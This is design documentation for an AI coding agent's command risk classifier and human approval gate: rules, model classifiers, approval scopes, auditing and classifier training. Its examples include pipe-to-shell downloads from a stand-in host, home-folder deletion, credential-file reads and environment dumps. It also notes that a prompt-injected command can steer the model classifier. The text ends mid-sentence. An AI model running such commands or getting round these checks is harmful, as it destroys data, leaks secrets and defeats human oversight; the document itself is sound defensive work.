


# Risk classification and approval

Before `run_command` executes anything that passed the [policy](tools/run_command.md#policy-and-sandbox), a
classifier assesses the command's risk and, at or above a threshold, a human is asked. This is layer 3 of
[policy-and-sandboxing.md](policy-and-sandboxing.md) and is recorded in
[ADR 0011](decisions/0011-risk-classifier-and-approval.md).

## Levels

| Level | Meaning | Examples |
| --- | --- | --- |
| `safe` | Read-only, or reversible within the working directory | `ls`, `git status`, `grep` |
| `moderate` | Modifies files or state but is recoverable, or reaches the network | `touch`, `git commit`, `npm install`, `curl` |
| `dangerous` | Destructive, irreversible, privilege-escalating, or exfiltrates data | `rm -rf`, `git push --force`, `sudo`, `… \| sh` |

## Classifiers

Two run and the higher verdict wins (`CompositeRiskClassifier`): the rules, and the classifier
`approval.classifier` names beside them, by default the Core ML classifier the release ships
([below](#a-core-ml-classifier)), or the on-device model. A command the rules know to be read-only is
not given to the second at all:

- **Rules** (`RuleRiskClassifier`): regexes with a level and a reason each, covering privilege, deletion,
  history rewriting and git's recovery data, credentials read or printed, uploads, publishing to a
  registry, deleting remote storage, network use, package installs, file modification, and build
  steps that write outside the project or discard build output (`xcodebuild`, `make clean`, `cargo
  clean`), and printing the whole environment (`env`, `printenv`, every secret in it). Building and testing the
  project are safe, as the training labels have them. Cheap, deterministic, tested against a labelled set. Rules
  cover the model's weak spot: ordinary modifications it tends to call safe. They run over the command as written
  and over a normalised spelling of it, so quoting does not hide a rule (`sh -c 'rm -rf ~/x'`, `"sudo" ls`,
  `eval "git reset --hard"`), nor does a quote or escape inside a word (`s''udo`, `w""isp`, `\wisp`), an unquoted
  `$IFS` or `${IFS}` between words (`rm${IFS}-rf`), a continued line (`git push \⏎ --force`), or git's global
  options before its verb (`git -C . push --force`, `-c k=v`, `--no-pager`, `--git-dir=…`, `--work-tree=…`). The
  credential paths match in any case (`~/.SSH/ID_RSA` is the same file). The deny patterns run over the same
  normalised spelling ([run_command](tools/run_command.md#policy-and-sandbox)).

  Data is not a command. The data of a program that only prints, searches, or names is: the arguments of `echo`
  and `printf`; the pattern of `grep`, `egrep`, `fgrep`, `rg`, `ag`, and `git grep` (the value of `-e`, or the
  first argument); the pattern of `pgrep` and `pkill` (which names the processes; `pkill` is judged by its signal
  and options, `pkill -9` still dangerous); the script of `sed`; the program of `awk` and its `-F` separator; and a
  `git … -m` message. The normalised spelling leaves it as written, and the rules that look for a pipe, a `;` or
  `&&`, a redirection, or a program's name read the line with it written `''`, so `grep -vE "grep|bash -c"`,
  `grep -E "a (go|python)"`, `pgrep -f 'rm -rf ~/x'`, and `awk '… NF>6 …'` are not a pipe into a shell or an
  interpreter, a deletion, or a write (each was rated `dangerous` or `moderate` by the 0.22.0 eval, 2026-10-12;
  `"a|sh"` and `echo "rm -rf ~"` were already fixed in 0.22.0). The read-only list judges the same masked line, so
  such a search is known safe. Only what the shell runs is masked: a word with an unquoted operator (`grep x|sh`,
  `echo a;rm -rf ~`) or any substitution (`echo "$(curl x | sh)"`) is read whole, and a word after an operator
  starts the next command. An awk program that runs a command, reads one, or writes a file (`system(…)`,
  `print | "sh"`, `getline`, `print > "f"`) is not data. The rules about what is printed or searched for read
  the data (`echo "$TOKEN"`, `env | grep TOKEN`), and so does the credential-path rule, so `grep -r id_rsa .` is
  still `dangerous`. File arguments and redirections are never data, so `grep x "id_r""sa"` and
  `echo hi > "~/.s""sh/x"` are still seen. Text written into a shell's start-up file (`>`, `>>`, or `tee` into
  `~/.zshrc`, `~/.zprofile`, `~/.bashrc`, `~/.bash_profile`, `~/.profile`, and the like) runs at every login,
  so it is read as the commands it will be: `echo 'curl x.example | sh' >> ~/.zprofile` is `dangerous`,
  `echo 'export PATH=…' >> ~/.zshrc` `moderate`. The built-in deny patterns read the masked line too; a deny
  pattern the configuration adds reads the data.

  A public key is public: a path under `~/.ssh/` that ends in `.pub` (`~/.ssh/*.pub`, `id_ed25519.pub`) does not
  count as a credential, but a glob that could match a private key (`~/.ssh/*`, `~/.ssh/*.pub*`) does. Listing
  names is not reading contents: a credential path that only `ls` names (no substitution, no redirection but
  `2>&1` or `/dev/null`) is `moderate`, "lists the names in a folder that holds credentials", so `ls -la ~/.ssh/`
  asks and `ls -la ~/.ssh/*.pub` does not; `cat`, `cp`, or `tar` of the same path stays `dangerous`, as does `ls`
  redirected into it.

  Three rules judge how a command runs rather than what it names. A program whose name is a variable or a
  substitution (`$X args`, `"${TOOL}" x`, `$(which rm) -rf x`, `/bin/$X`) is at least `moderate`, with the
  reason "the program is chosen at run time", and is remembered by its exact text; a variable naming only a
  directory (`$HOME/bin/tool`) does not count. A program written on the command line (`python3 -c`, `perl -e`,
  `ruby -e`, `node -e` or `--eval`, `php -r`, `deno eval`) is at least `moderate` and, as an interpreter's,
  remembered by its exact text: wisp does not parse Python, Perl, or JavaScript, so what such a program does is
  seen only where the shell rules recognise a word of it. And a pipe into an interpreter reading its program
  from standard input (`| python3`, `| python3 -`, `| perl`, `| node`, `| osascript`, and the shells, `ksh` and
  `fish` among them) is `dangerous`, judged over the whole line; `| python3 -m json.tool` and
  `| python3 script.py` are not. So is a download read as a program through a process substitution
  (`python3 <(curl …)`, `bash <(curl …)`, `source <(wget …)`). Deleting cluster resources (`kubectl … delete`),
  deleting a repository or changing who can see it (`gh repo delete`, `gh repo edit --visibility`), and a wisp
  run with `--yes` or `-y`, which approves every risky command, are `dangerous` too.

  The rules also keep a short list of read-only commands (`KnownSafeCommands`): `ls`, `cat`, `grep`, `pgrep`,
  `find`, `git status`, `git log`, `git diff`, and other git reads, `python3 -m json.tool` with at most one file,
  `--version` queries, and reads of the Mac's state such as `sysctl` and `defaults read`. A simple command no
  risky rule matches that fits one of those forms from start to end is **known safe**. Harmless redirections
  (`2>&1`, `>/dev/null`) and display-only variables (`NO_COLOR=1`) don't count against it, nor does a `|` or `>`
  in its data (above). It must run nothing else (no `$(…)` or backticks), write nowhere, and name nothing
  sensitive (`.env`, `token`, `password`, `.pem`, shell history, Messages, Mail), in its data too: a search for
  `password *= *"` prints what it finds, so it is left to the second classifier. It must also avoid the options that make a reading program write a file or
  run a program (`find -exec` or `-delete`, `sort -o`, `rg --pre`, `git diff --output`, `awk`'s
  `system()`). For a known-safe command the rules' `safe` is final: no model is asked, so it costs no
  model call and cannot be over-rated. A command off the list is judged as before, never refused.
- **The on-device model** (`ModelRiskClassifier`, `approval.classifier: system-model`): one fresh on-device session per command with a `@Generable` verdict.
  The verdict generates the one-sentence `reason` before the `risk` level, so the level follows the
  reasoning. The instructions give the model facts it otherwise guesses at (project build output is the
  project's own programs; filtering output is not network access; git reads are safe; anything that
  changes a file, setting, or repository state is at least moderate) and thirteen labelled examples.
  Sampling is greedy, so the same command always gets the same verdict. The command is placed between
markers and the model is told to treat it as data, but a command containing persuasive prose can still
steer the verdict; that is why the rules floor exists and the model may only raise a level, never lower one. If the model is unavailable or
  fails it reports `moderate`, so a broken classifier asks rather than waves through. The eval can put another
  model in its place (`ModelRiskClassifier(model:)`) to measure it in this role
  ([measurements.md](measurements.md#comparing-models)); the configuration cannot.

Measured on this machine (`scripts/check eval`, 47 labelled commands, twelve of them held out from the
instruction examples): the model alone scores 46 correct, 1 over, 0 under, at about 1.7 s per call
(2026-09-21; the recorded figure is in [measurements.md](measurements.md)). Its one miss reads a scratch
file under `/var/folders` as moderate rather than safe, which asks once and never waves anything through.
Two cases were added that day after the model had rated every `git commit -F /private/tmp/…` as
dangerous, reading "private" in a macOS temporary path as private data; the instructions now say what
those paths are. Before the instruction rewrite of 2026-09-19 the model scored 26 of 32 and varied
between runs. The eval suite asserts only the hard requirement (no dangerous command below moderate),
prints every miss with the model's reason, and is the place to add any command the model gets wrong.

A session keeps its classifiers' verdicts (`CachingRiskClassifier`, up to 256), keyed by the exact
command line and working directory, so a line judged once in a session is not judged again: the model
costs about 1.4 s a call and a coding loop reruns the same build and test lines. This is sound because
the verdict depends only on that key (greedy sampling, fixed rules and instructions for the session's
life). Only the classification is reused: the gate decides and asks by the level exactly as before, so a
moderate command still asks each turn unless an approval covers it. A fallback verdict from an
unavailable or failing classifier is never kept, so it is retried. A reused verdict is still recorded as
`classifier.verdict`, with `classifier.cached: true` in its metadata. With `approval.classifier:
rules` nothing is cached, since the rules answer in microseconds. `wisp watch` goes further and clears
its one command once ([ADR 0033](decisions/0033-watch-mode.md)).

## The gate

`ApprovalGate` (one per conversation) classifies, audits the verdict, and if the level is at or above the
threshold asks the session's `Approver`. `read_file` (and the condensing tools' file reads) use the same gate over
the equivalent `cat '<path>'`, the path shell-quoted, followed by `# resolves to '<real path>'` when following links
leads to a file the rules rate higher (a link to a key), with the rule classifier only, so credential paths ask by either name and ordinary reads cost no
model call.

A line is split into its simple commands (`ls && curl … | sh` is three), each is classified and, if
risky, approved on its own with the whole line shown for context; a denial for any part refuses the line
([ADR 0015](decisions/0015-per-command-approval.md)). The splitter looks inside `$(…)`, backticks, and `(…)`
subshells (a `;` or newline inside parentheses does not split them), reads `'…'`, `"…"`, and `$'…'` quoting
(inside `"…"` only `$(…)` and backticks are substitutions: the `(` of `grep -E "a (b|c)"` is a character, and
so is the `'` of `"it's $(x)"`, whose substitution is still judged), and looks inside the script given to `sh -c`, `bash -lc`, and the like, the words after `eval`, and the command
`find` runs for each match (`-exec`, `-execdir`, `-ok`, `-okdir`, up to `;` or `+`, so `find . -exec sh -c 'rm
{}' \;` is `find`, `sh`, and `rm`), so the commands they run are judged too; `xargs sh -c '…'` is unwrapped
the same way. It fails closed: a segment no command can be read from (an assignment, an unbalanced group), or
one whose program is what a substitution prints (`$(echo rm) -rf x`), is judged as written, so the gate never
judges fewer commands than the line holds.

Loops and conditionals are judged by what they run. `do X`, `then X`, `else X`, `elif X`, `if X`, `while X`,
`until X`, `! X`, `{ X`, a function's body, and a `case` branch's `a) X` are judged and remembered as `X`, by
its own pattern: `for f in *.txt; do git add "$f"; done` is `git add *`, so a new loop whose body runs an
approved command does not ask again. A loop header (`for f in *.txt`), `do`, `then`, `done`, `fi`, `esac`, and
`}` run nothing of their own and are not parts, so a keyword is never remembered on its own (the standing `do *`
found on 2026-10-09 can no longer be made); a closing keyword with a redirection (`done > out.txt`) is judged as
written. A command that uses a loop's variable carries what the variable ranges over, as a comment the rules
read and the dialog shows (`rm "$f" # f in ~/*`), so a loop over the home folder is dangerous where the same
body over `*.o` is moderate, and the two are never covered by one approval; a substitution in the header
(`for f in $(find …)`) is judged as a command of its own. Case patterns containing `|` (`a|b)`) are split as a
pipe, and the word before it is judged as a command: it asks more, never less.

Some risks belong to the whole line rather than a part (`curl … | python3`, `env | grep TOKEN`): the rules judge
the line once more, and when they rate it above every part, the line itself is asked about, once, remembered by
its exact text. Its parts are not asked as well: the person approving the line saw every part of it, so they are
covered for that line, each recorded as `covered-line` (before 0.22.0 the risky part was asked first and then the
whole line). A part on its own later is judged afresh, and a line whose parts already carry its highest level
asks its parts as before. Approvals are remembered by the essential command,
the program that actually runs after unwrapping `sudo`, `env`, `time`, and the like, as a pattern such as
`head *`, so arguments never matter to remembering. For programs whose first word is the verb (`git`,
`cargo`, `swift`, `npm`, `brew`, `docker`, and the rest of
`harness/Sources/WispCore/Resources/multiplexers.txt`) the verb is part of the pattern: `git commit *`
and `git push *` are remembered apart, so approving one does not approve the other
([ADR 0027](decisions/0027-verb-patterns.md)). Options before the verb (`git -C dir status`) and
toolchain selectors (`cargo +nightly build`) are skipped; a program with no verb (`git --version`) is
`git *`. An approvals file written before verbs existed still counts: a stored `git *` covers every
git verb until it expires. A command whose program says nothing of what runs is remembered by its exact text,
never by a pattern: a keyword left after the reading above (`done > out.txt`, `[[`, `coproc`), `.` and
`source`, `eval`, an interpreter (`sh`, `bash`, `zsh`, `python3`, `node`, `ruby`, `perl`, `osascript`, …),
anything run through `exec` or `xargs`, a program named by a variable or a substitution (`$X args`), and a
segment that could not be read, since `sh *` or `$X *` would cover any command at all. An approval has a scope
([ADR 0014](decisions/0014-persisted-approvals.md)):

| Scope | Covers | Lives |
| --- | --- | --- |
| `once` | this pattern in this directory | the rest of the current turn: the prompt's whole tool loop, however many calls it makes |
| `session` | this pattern in this directory | until the process exits |
| `project` | this pattern in this directory | `approval.persistDays` (30), in `~/.wisp/approvals.json` |
| `always` | this pattern in any directory | `approval.persistDays` (30), in `~/.wisp/approvals.json` |

### The order of checks

The gate first classifies every simple command in the line with the rules and, unless the rules know it to be
read-only, the configured classifier. When the rules rate the whole line above every part and at or above the
threshold, the line alone is cleared by steps 3 to 6 below, as one command, and its parts with it. Otherwise,
for each simple command in turn, it does the following, stopping at the first step that decides:

1. Take its verdict.
2. If the verdict is below the threshold, run it. Nothing else is consulted.
3. Check the session cache for an approval in this directory of this pattern at this level or above, or of
   this exact text; **a dangerous verdict is covered only by an approval of the exact text**.
4. Check the turn cache the same way for a once-approval given earlier in this turn.
5. Check the persistent file for a `project` entry in this directory or an `always` entry granted at this
   level or above, **but only if the verdict is not dangerous**.
6. Ask the approver.

The life of one command line through the policy and the gate is this; every verdict and decision along the way
is audited:



Every cached approval remembers the level it was given at and covers only verdicts at that level or below, so a
moderate `rm *` approved for the session never covers `rm -rf ~`. A dangerous verdict is remembered by its exact
text (the dialog's "remembered as" shows it), and only an approval of that same text in that directory, this
session or this turn, covers it again: the person saw that command, not its pattern. Step 5 goes further: a
dangerous verdict skips the persistent file and always asks, so a stored `rm *` never covers `rm -rf build` and a
stored `git push *` never covers `git push --force`; the persistent file may be weeks old. Before 0.21.1 the
session and turn caches were checked by pattern alone, so a moderate approval covered a later dangerous command of
the same pattern. And because classification always comes first, a stored approval decides only whether to ask,
never whether the command is acceptable.

A dangerous verdict is never persisted: `project` or `always` is downgraded to `session` and the audit
says so. Remembered approvals only decide whether to ask; deny patterns, the sandbox, and the classifier
run on every part every time, so `rm *` never covers `rm -rf build`, and each use is audited with the
approval id.
`wisp approvals` lists them, `wisp approvals revoke <id>` and `clear` remove them. A `project` approval belongs to
the directory it was given in and outlives it: one given in an agent's worktree removed since can never match
again. `wisp approvals`, chat's `/approvals`, and `wisp://approvals` mark such an approval gone (checked when
listed: nothing is at the path, or it is not a directory; a directory that cannot be looked at is not gone), and
`wisp approvals clear --gone` removes them, deciding again under the file's lock so a directory recreated since
the listing keeps its approvals. Gone approvals are marked, not swept: a volume not mounted, or a worktree made
again at the same path, looks gone for a while, and every approval expires after `approval.persistDays` anyway.
Every process that uses the
file (a running `wisp mcp`, `wisp approvals` in a terminal) reads it afresh for each check and changes it under an
advisory `flock` on `approvals.json.lock` beside it, writing it whole by rename with mode 0600, so a revocation made
while a server runs stays revoked (before 0.21.1 the server's next grant wrote back its own stale copy).
Everything a dialog or notification shows from a request (the command, the line, the reasons, the pattern) has its
control characters and bidirectional overrides written as escapes (`\e`, `\r`, `\u{9B}`), so a command cannot
redraw the prompt to hide what it is. Decisions: approve with a scope (see below), deny with a reason, or unanswered. **An unanswered request is a denial**: no answer is not
an answer, so the MCP approver that hears nothing within `approval.timeoutSeconds` (default 600, ten
minutes) reports `unanswered`, the gate refuses the command and audits the decision as `timed-out`. Set it
to `0` to wait indefinitely. The terminal prompt in `chat` has no timeout: a person is at the keyboard,
and end of input counts as a refusal. A denial returns to the
model as `error: command not approved: …` (or `error: read not approved: …` from `read_file`) so it can
choose another approach. The gate itself throws `ApprovalGate.Failure.refused`; each tool renders it
through `ToolOutput.error`. `CommandRunner` splits the line once, checks the policy over each part, and
passes the parts to the gate, so a line is never split twice.

### The model's requests about models

The model's `models` tool ([tools/models.md](tools/models.md), [ADR 0059](decisions/0059-one-set-of-model-actions.md))
asks through the same gate, with a request of its own kind (`ApprovalRequest.Kind.modelAction`). Each is judged as
the command `models <verb> <subject>` by the configured classifier, as `edit_file`'s edits are judged as
`edit_file <mode> <path>`; the rules rate a pull `moderate` ("downloads a model from Hugging Face") and the rest
`moderate` too ("changes the models wisp can run"), and the request adds what the person needs beside those reasons:
the download, the publisher and whether it is trusted, and the licence for a pull; what changes in `config.json` for
the rest. It differs from a command's in four ways:

| | `models pull <repo>` | `models enable\|disable\|check <name>` |
| --- | --- | --- |
| Asked at | every level, whatever `approval.threshold` says | every level, whatever `approval.threshold` says |
| Covered by a held approval | never: every pull is asked | this turn's or this session's approval of its pattern (`models enable *`) |
| Scopes an answer may give | `once`, for this pull alone (not even the rest of the turn); a wider answer is narrowed and `downgradedFrom` records it | `once` or `session`; `project` and `always` are narrowed to `session`, so nothing reaches `approvals.json` |
| `--yes` | does not answer it: refused, `a pull is asked of the person every time, and --yes does not answer it` | approves it, as it does a command |

The terminal's dialog offers only those keys (`[y]once  [n]o` for a pull, and `never remembered` where a command
shows what it is remembered as); other faces' wider answers are narrowed by the gate. Each request gets an id,
recorded as `approval.decided`'s `approvalID`, which the change records as `approval` on what it writes
(`config.change`, `model.verified`, `model.publisher`, `model.pull`), so the audit ties the answer to its effect.
Trusting a publisher from now on and switching the conversation's model are never asked of the model: the tool
refuses them.

### Running outside the sandbox

A command the model asks to run without the sandbox (`run_command`'s `outsideSandbox`,
[tools/run_command.md](tools/run_command.md#running-outside-the-sandbox),
[ADR 0064](decisions/0064-an-approved-run-outside-the-sandbox.md)) asks through the same gate, with a request of its
own kind (`ApprovalRequest.Kind.outsideSandbox`), after the policy's lists and the operator's switch
(`commandPolicy.sandbox.allowOutsideSandbox`). Every part is classified and audited as usual, and then:

| | A run outside the sandbox |
| --- | --- |
| What is asked | the whole line, once, at the highest of its parts' levels and the rules' verdict on the line, `moderate` at least; the first reason is `runs OUTSIDE the sandbox: it may write anywhere you can, ~/.wisp included; this one run only` |
| Asked at | every level, whatever `approval.threshold` says, `never` and the read-only list included |
| Covered by a held approval | never: no once, session, project, or always approval, and its answer covers nothing after it, not even later in the turn |
| Scopes an answer may give | `once`; a wider answer is narrowed and `downgradedFrom` records it |
| `--yes`, or a channel that asks no one | refused: `running outside the sandbox is asked of a person every time, and no one can be asked here (--yes does not answer it); …` |

How each face shows it:

| Face | Shows |
| --- | --- |
| `wisp chat` (terminal) | `⚠ approve OUTSIDE the sandbox [level] <line>`, `never remembered`, and the keys `[y]once  [n]o` |
| `wisp-tui` | the title `approve OUTSIDE the sandbox · <level>`, the line `runs OUTSIDE the sandbox: it may write anywhere you can`, `never remembered: this run only`, and only `y` and `n` answer |
| MCP elicitation | the title `wisp: run OUTSIDE the sandbox? (<level> risk)`, a message opening `Command to run OUTSIDE the sandbox, this once:`, and no scope picker |
| `~/.wisp/pending` | `outsideSandbox: true` in the request file, bound into its SHA-256, so a file edited to drop it is refused when answered |
| The notification | the title `wisp: approve OUTSIDE the sandbox` |
| `wisp approvals pending` | the command prefixed `OUTSIDE THE SANDBOX:` on a terminal; piped, the column is the command alone |
| `wisp approvals approve` | `approved once, outside the sandbox: …`, and `(session is taken as once)` when a wider scope was given |
| Plain chat's note | `run <line> OUTSIDE THE SANDBOX, this once, in …` |

"This turn" is defined by the conversation's `TurnClock`, which the agent advances once per prompt and
the gate and the audit log both read, so a once-approval covers the rest of the tool loop whether or
not an audit log is attached, and the refusals `respond` reports are those of the turn just run.

| Entry point | Approver | Behaviour |
| --- | --- | --- |
| `wisp respond` | denying, unless `--yes` | Non-interactive: risky commands are refused with a message naming the three ways forward. `--yes` approves everything but a model pull and a run outside the sandbox, which are refused. |
| `wisp chat` | terminal | Prints the command, level, and reasons on stderr; reads `y` (this turn), `s` (session), `p` (project), `a` (always), or `n`. |
| `wisp mcp` | out of band and MCP elicitation, unless `--yes` | For commands the model runs inside `respond` and the condensing tools: files the request in `~/.wisp/pending`, posts a notification (beside a client's dialog, only once it has gone unanswered for `approval.bannerDelaySeconds`, default 10), and, when the client advertised elicitation, asks through its dialog at the same time; the first answer wins and the other is withdrawn. The person answers with `wisp approvals approve ID [--scope …]` or `deny ID` from a terminal, in a running `wisp-tui`, or with `/approvals approve|deny ID` in a plain `wisp chat` at a terminal; never through the MCP conversation. Silence for `approval.timeoutSeconds` refuses. With `approval.outOfBand` false: elicitation only, and a client without it is refused with a message telling the calling harness to run the command itself, start wisp with `--yes`, or lower the threshold ([ADR 0046](decisions/0046-approval-and-notifications-over-mcp.md)). |

## Configuration

```json
{ "approval": { "threshold": "moderate", "useModel": true } }
```

| Field | Default | Meaning |
| --- | --- | --- |
| `threshold` | `moderate` | Ask at this level and above: `safe`, `moderate`, `dangerous`, or `never`. |
| `classifier` | `coreml` | What runs beside the rules: `coreml` (a Core ML text classifier, below: the version this release ships unless `coremlModel` names another, under a millisecond a command; [ADR 0041](decisions/0041-shipped-classifier-is-the-default.md)), `system-model` (Apple's on-device model, about 2 s a command, more when the Mac is busy), or `rules` (nothing; fast and deterministic). Independent of `model`. |
| `useModel` | none | The pre-0.2 switch; `true` means `classifier: system-model`, `false` means `classifier: rules`. Read only when `classifier` is absent. |
| `coremlModel` | the shipped default, `risk@X.Y.Z-default` | For `coreml`: a version, `risk@<version>`, from `~/.wisp/classifiers/risk`, or the `.mlmodel` or `.mlmodelc`, absolute, `~`, or under `<home>/models/coreml`. |
| `coremlMinimumConfidence` | `0.6` | For `coreml`: below this top-label probability the verdict is raised to at least `moderate`. |
| `timeoutSeconds` | `600` | How long an approval may go unanswered before it counts as declined; `0` waits forever. |
| `persistDays` | `30` | Lifetime of `project` and `always` approvals. |
| `outOfBand` | `true` | Under `wisp mcp`, also file each waiting command for `wisp approvals` and `wisp-tui`, with a notification; the first answer, there or in the client's dialog, wins. `false` asks through elicitation only. |

Whether the model may ask to run a command outside the sandbox at all is the command policy's
`sandbox.allowOutsideSandbox` (true), not an `approval` field ([above](#running-outside-the-sandbox)).

## Approval over MCP through another face

A client that does not render elicitation (the Claude mobile app), or whose dialog sticks, can still be
answered ([ADR 0046](decisions/0046-approval-and-notifications-over-mcp.md)). The waiting server writes the
request to `~/.wisp/pending/<id>.request.json` (directory 0700, file 0600) and posts a banner:

```
wisp: approval needed
moderate risk · claude-code, thread git
git push origin main — wisp approvals approve a1b2c3d4
```

The person answers from a terminal, `wisp-tui`, or a plain `wisp chat` at a terminal (`/approvals approve|deny`);
the answer is a second file, bound by a SHA-256 to the
exact command, line, directory, thread, and server process shown, and since 0.21.1 to the reasons shown and the
expiry too (a request records `bindingVersion: 2`; one filed by an older wisp, without it, is still answered by
the first set), so it approves only what was shown and only once. A request whose server has stopped or whose wait has expired is stale and is swept by the next
`wisp approvals pending`. The calling agent cannot answer: nothing in MCP approves, wisp's own model is
refused `wisp approvals approve|deny` by the default policy and cannot write `~/.wisp` from the sandbox (only a
line the person approved to run [outside the sandbox](#running-outside-the-sandbox) can, as any command the person
runs can), and the commands refuse to run without a terminal on standard input. The same directory holds the facts a caller asked
the person to keep as permanent (`<id>.fact.json`), which are answered with `wisp facts keep|drop`, not
`wisp approvals` ([ADR 0048](decisions/0048-permanent-facts-over-mcp.md)), and the model's questions to the person
(`<id>.question.json`), answered with `wisp questions answer|decline`: a question is not an approval, and its dialog
is never styled as one ([ADR 0062](decisions/0062-the-inquiry-verb.md); [tools/ask.md](tools/ask.md)).

`never` still classifies and audits; it just does not ask.

### A Core ML classifier

`classifier: coreml` runs a Core ML text classifier beside the rules ([ADR 0020](decisions/0020-coreml-risk-classifier.md)).
The rules, the threshold, and the human stay authoritative: the higher of the two levels wins, and
nothing the classifier does can lower a level or grant an approval.

The model must follow contract version 1 or 2: input `text`, a string; output `label`, one of `safe`,
`moderate`, `dangerous`; creator metadata `wisp.classifier.contract` = `1` or `2` and
`wisp.classifier.labels` = `safe,moderate,dangerous`. Under version 1 wisp gives it the command line
trimmed with runs of whitespace collapsed to one space, case kept; version 2 first puts spaces around
shell punctuation (`| & ; < > ( ) $ \` " ' = / ~ .`), so each is a token of its own
([ADR 0038](decisions/0038-fast-specialised-classifiers.md)). A model declaring anything else is
rejected when it loads. Its metadata version string is its identity in the audit, and the model is
loaded once per process.

Every failure is a `moderate` verdict with the reason: no path configured, a missing asset, a model
Core ML cannot load, a contract mismatch, an inference error, no prediction, an unknown label, or a
top-label probability below `coremlMinimumConfidence`. Confidence is recorded only when the model gives
label probabilities (Create ML text classifiers do); it is uncalibrated, and the threshold guards
against guessing rather than measuring accuracy. `wisp doctor` checks the configured model prepares.

### Training and measuring a classifier

A classifier runs on every command, so it should be fast and specialised rather than a general model
([ADR 0038](decisions/0038-fast-specialised-classifiers.md)). wisp trains one on this Mac:

```
wisp classifier list                         # the versions on this Mac, the one in use marked *
wisp classifier train --from-audit --use     # a new version, in well under a second, used from the next session
wisp classifier measure risk@0.13.0-local.1 --examples my-commands.tsv
wisp classifier use risk@0.14.0-default      # back to the one the release ships
```

Versions live in `~/.wisp/classifiers/risk/<version>/`, each a read-only `model.mlmodel` beside a
`manifest.json` recording what it learned from (the source, the count per level, a SHA-256 of the
examples), the version in use when it was trained, and every measurement taken of it since. Each release
ships a default, `risk@X.Y.Z-default`, trained once from the bundled examples when the release is
prepared, measured by the eval, embedded in the binary, and written into the store on first use; it is
never changed. `train` always adds a new version, `risk@X.Y.Z-local.<n>`, and never overwrites one;
the same examples always train the same classifier. `use` points
`approval.classifier` at `coreml` and `approval.coremlModel` at the version, through the same checked,
audited change as `/config set`; `remove` deletes a version trained here, but not the default and not
the one in use. With `approval.classifier: coreml` and no `approval.coremlModel`, the release's default
is used, so a fast classifier needs no training at all. A path or a file name under
`~/.wisp/models/coreml` still works for a model made elsewhere. `--examples` gives your own
labelled commands, one per line as `level<TAB>command`, `#` for comments; every level needs some. The
bundled examples are `harness/Sources/WispCore/Resources/risk-examples.tsv`, a copy of
`training/risk/train.tsv` (drafted and real commands, 2,135 in all), and none of them is in the eval
set.

How versions enter the store, which one the gate uses, and what `remove` may not touch:



`--from-audit` also learns from this Mac's audit log: the on-device model's verdicts on the commands
you have run, so the fast classifier learns what the slow one decided on the commands that matter
here. Only verdicts the model took part in count, not its fallbacks; each command keeps its latest
verdict; a command a person refused is raised to at least `moderate`; and secrets and personal data are
replaced by markers first, since a trained model keeps the words it learned. The audit examples replace
bundled ones for the same command. `train` prints how many commands it found, how many verdicts were
fallbacks, how many were raised, and how many were redacted.

A test set of commands actually run on this Mac must never be trained on, and `--from-audit` would
otherwise learn exactly those. `train` always leaves out any example that overlaps
`~/.wisp/classifiers/risk/held-out.tsv` (labelled commands, one `level<TAB>command` per line), exactly,
after normalising, by family, or by near match, and says how many it left out; `--exclude <file>` adds
more files to leave out. Keep the test set there, or pass it with `--exclude`.

`measure` runs a classifier over labelled commands with the rules beside it, as the gate runs it, and
prints the commands rated exactly, over, and under, every miss, and the latency per verdict (p50, p95,
slowest). It exits 1 when a dangerous command is rated safe. Given a version it measures that one, and
records the result in its manifest, so `list` shows each version's latest score; `--classifier` and
`--coreml-model` override the config otherwise. Measure a trained model on commands it did not learn from.

Measured on 2026-09-26 over 996 real commands held out from all training, the rules beside each: the
shipped default, trained on drafted and real commands, rated 817 exactly at 0.24 ms a command, with 129
over and 50 under; `system-model` rated 664 at 2.5 s (P50), with 261 over and 71 under. The shipped
default rated four dangerous commands safe, and `system-model` one. That is why the shipped default is
the default ([ADR 0041](decisions/0041-shipped-classifier-is-the-default.md)), and why the dangerous
commands need a larger test set.
[measurements.md](measurements.md) has the current figures.

## Audit

Every command produces `classifier.verdict` (level, reasons, sources, seconds) and, when asked,
`approval.requested` and `approval.decided` (decision, reason; `cached` for session approvals, `covered-line` for
a part covered by approving its whole line; `outsideSandbox: true` for a run outside the sandbox). See
[logging.md](logging.md).

## Testing policy without the model

`PolicyScenarioTests` is a table: for a command line it states the parts the splitter must find, whether
the deny patterns refuse it, and which patterns a user would be asked for at the default threshold, all
driven through the real splitter, deny list, and rule classifier with a recording approver. No model, no
MCP client. When a real line surprises you, add a row there first; it documents the intended behaviour
